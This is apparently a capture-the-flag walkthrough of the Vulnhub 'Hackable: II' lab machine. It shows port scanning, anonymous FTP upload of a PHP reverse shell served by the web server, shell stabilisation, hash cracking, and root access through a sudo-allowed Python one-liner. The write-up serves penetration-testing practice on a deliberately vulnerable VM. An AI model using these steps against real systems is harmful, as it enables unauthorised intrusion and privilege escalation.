 <h1>Hackable: II</h1>

Today, we'll be taking a look at the hackable2 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/hackable-ii,711/).

<h2>Nmap</h2>
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.105
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 19:57 EET
Nmap scan report for 192.168.56.105
Host is up (0.00035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2fc62fc46da6f55bc21bf9171f9a0989 (RSA)
|   256 5e911b6bf1d881de8b2cf37061ea6f29 (ECDSA)
|_  256 f1982191c8ee4da283146496375b443d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:E0:32:46 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.35 ms 192.168.56.105
```
The machine is running ftp,ssh and http.

ftp allows anonymous login.

We got in and found a file called: **CALL.html**.

Let's download it to our local machine.

```get CALL.html```

![](pics/pic1.png)

The file doesn't contain anything special, just some basic html.

Let's check the machine's http server.

I'll use dirsearch for directory enumeration.

```dirsearch -u 192.168.56.105```

![](pics/pic2.png)

We found a directory called **files**.

![](pics/pic3.png)

![](pics/pic4.png)

It cotains the same file we found in the ftp server.

That means we can anonymous login to upload a reverse shell.

If you're using kali or parrot, you can find a php reverse shell here: **/usr/share/webshells/php/php-reverse-shell.php**

Now, we need to change the ip address to the ip of our local machine.

![](pics/pic5.png)

Now, let's login as anonymous and upload the shell.

```put php-reverse-shell.php```

![](pics/pic6.png)

We can see that the shell is also in the **files** directory.

![](pics/pic7.png)

We got a shell!

You can also use these two commands to make your shell more stable.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

![](pics/pic8.png)

In the home directory, there's a file **important.txt**.

![](pics/pic9.png)

Let's check that script.

![](pics/pic10.png)

We found the hashed password for the user **shrek**.

Let's crack the hash and switch user to shrek.

You can use this [website](https://hashes.com/en/tools/hash_identifier) to 
identify the hash type.

![](pics/pic11.png)

We got the password.

Now, let's switch to shrek.

```su shrek```

We found the user flag at the home directory of shrek.

![](pics/pic12.png)

Let's use ```sudo -l```.

Great! we can run python with sudo.

![](pics/pic13.png)

Now, let's open a root shell and find the root flag.

```python3.5 -c 'import os; os.system("/bin/sh")'```

We are root!

![](pics/pic14.png)